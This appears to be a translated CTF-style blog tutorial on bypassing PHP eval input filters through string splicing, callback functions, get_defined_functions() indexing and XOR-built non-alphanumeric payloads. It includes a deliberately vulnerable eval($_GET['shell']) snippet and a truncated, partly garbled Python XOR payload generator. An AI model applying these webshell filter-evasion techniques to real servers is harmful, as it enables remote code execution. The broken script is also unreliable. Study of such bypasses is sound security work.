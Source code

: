 ![Insert the picture description here](https://img-blog.csdnimg.cn/20210602155232664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602155238832.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

If the PHP version is greater than 7, you can also use splicing method to bypass filtering quotes

![Insert the picture description here](https://img-blog.csdnimg.cn/2021060215535943.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

If the parameter length is limited, you can also bypass the parameter length limit or callback function by passing multiple parameters.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602155639891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Most of the callback functions may depend on the specific length of the limit, but when PHP >= 5.6 & PHP < 7, the above filtering method can be bypassed.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602160118697.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Built-in function access bypass
Applicable to PHP version: Windows local test is PHP>=7, but it is not sure that it cannot be used even if the PHP5 test reports an error.
`get_defined_functions()`: Returns an array of all defined functions
Using this method, you need to know the specific version of PHP, because the values ​​returned by get_defined_functions() in each version are different, here php7.3.4 is the basis.

![Insert the picture description here](https://img-blog.csdnimg.cn/2021060216080145.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602160807899.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602161219883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602161225556.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# XOR bypass
Applicable to PHP version: Unlimited
For example: we get A after XOR ? and ~

![Insert the picture description here](https://img-blog.csdnimg.cn/20210602161622238.png#pic_center)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
?>
```

```python
XOR script

# -*- coding: utf-8 -*-
payload = "assert"
33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
#strlist is the decimal character of all non-alphanumeric characters in the ascii table
str1,str2 = '',''

for char in payload:
    for i in strlist:
        for j in strlist:
            if(i ^ j == ord(char)):
```